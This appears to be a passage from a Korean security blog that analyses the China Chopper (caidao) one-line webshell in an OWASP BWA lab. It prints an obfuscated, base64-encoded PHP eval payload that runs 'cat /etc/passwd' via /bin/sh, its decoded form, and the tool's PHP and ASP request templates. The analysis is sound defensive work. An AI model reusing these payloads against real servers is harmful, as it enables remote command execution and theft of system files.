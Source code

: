 < cat /etc/passwd 명령어 입력 시 패킷 덤프 >



      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JG09Z2V0X21hZ2ljX3F1b3Rlc19ncGMoKTskcD0nL2Jpbi9zaCc7JHM
      9J2NkIC9vd2FzcGJ3YS9vd2FzcGJyaWNrcy1zdm4vdXBsb2FkLTEvdXBsb2Fkcy87Y2F0IC9ldGMvcG
      Fzc3dkO2VjaG8gW1NdO3B3ZDtlY2hvIFtFXSc7JGQ9ZGlybmFtZSgkX1NFUlZFUlsiU0NSSVBUX0ZJT
      EVOQU1FIl0pOyRjPXN1YnN0cigkZCwwLDEpPT0iLyI%2FIi1jIFwieyRzfVwiIjoiL2MgXCJ7JHN9XC
      IiOyRyPSJ7JHB9IHskY30iOyRhcnJheT1hcnJheShhcnJheSgicGlwZSIsInIiKSxhcnJheSgicGlwZ
      SIsInciKSxhcnJheSgicGlwZSIsInciKSk7JGZwPXByb2Nfb3Blbigkci4iIDI%2BJjEiLCRhcnJheS
      wkcGlwZXMpOyRyZXQ9c3RyZWFtX2dldF9jb250ZW50cygkcGlwZXNbMV0pO3Byb2NfY2xvc2UoJGZwK
      TtwcmludCAkcmV0OztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"));

      ↓ Request 패킷 중에서 Base64 문자열 디코딩

      @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
            @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $m = get_magic_quotes_gpc();
      $p = '/bin/sh';
      $s = 'cd /owaspbwa/owaspbricks-svn/upload-1/uploads/;cat /etc/passwd;echo [S];pwd;echo [E]';
      $d = dirname($_SERVER["SCRIPT_FILENAME"]);
      $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
      $r = "{$p} {$c}";
      $array = array(array("pipe", "r"), array("pipe", "w"), array("pipe", "w"));
      $fp = proc_open($r.
          " 2>&1", $array, $pipes);
      $ret = stream_get_contents($pipes[1]);
      proc_close($fp);
      print $ret;;
      echo("X@Y");
      die();

위 3 가지 실습을 가지고 분석한 결과, 웹쉘 eval 함수의 변수명에 실직적인 공격 코드를 우회적인 기법과 Base64 인코딩한 후 전송하여 실행된 결과값을 얻음.

아래 내용은 caidao.conf 파일에서 확인한 각 웹 언어에 따른 Request 기본 전송 폼임.



      // PHP_BASE 매개 변수 : %s
      <PHP_BASE>
      array_map("ass"."ert",array("ev"."Al(\"\\\$xx%%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";
      @ev"."al(\\\$xx('%s'));\");"));
      </PHP_BASE>

      // ASP_BASE 매개 변수 : %s %s %s 这里有个bd函数用于HEX解码
      <ASP_BASE>
      %%u0045%%xec%%ute%%G%%loba%%l%%%%28Replace%%28%%22Fu%%nct%%ion%%20bd%%28by%%V%%a
      l%%20s%%29:Fo%%r%%20i%%%%3D1%%20T%%o%%20Le%%n%%28s%%29%%20S%%te%%p%%202:c%%%%3DM
      %%id%%28s%%2Ci%%2C2%%29:If%%20Is%%Nu%%meric%%28M%%id%%28s%%2Ci%%2C1%%29%%29%%20T
      %%hen:bd%%%%3Dbd%%4026%%40c%%hr%%28%%22%%22%%4026%%40H%%22%%22%%4026%%40c%%29:E%
      %lse:bd%%%%3Dbd%%4026%%40c%%hr%%28%%22%%22%%4026%%40H%%22%%22%%4026%%40c%%4026%%
      40M%%id%%28s%%2Ci%%2B2%%2C2%%29%%29:i%%%%3Di%%2B2:E%%nd%%20If:Ne%%xt:E%%nd%%20Fu
      %%nct%%ion:E%%xecu%%te%%%%28bd%%%%28%%22%%224F6E204572726F7220526573756D65204E65
      78743A526573706F6E73652E57726974652022%s223A%s3A526573706F6E73652E57726974652022
      %s223A526573706F6E73652E456E64%%22%%22%%29%%%%29%%22%%2C%%22%%4026%%40%%22%%2Cch
      r%%2838%%29%%29%%29
      </ASP_BASE>


[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"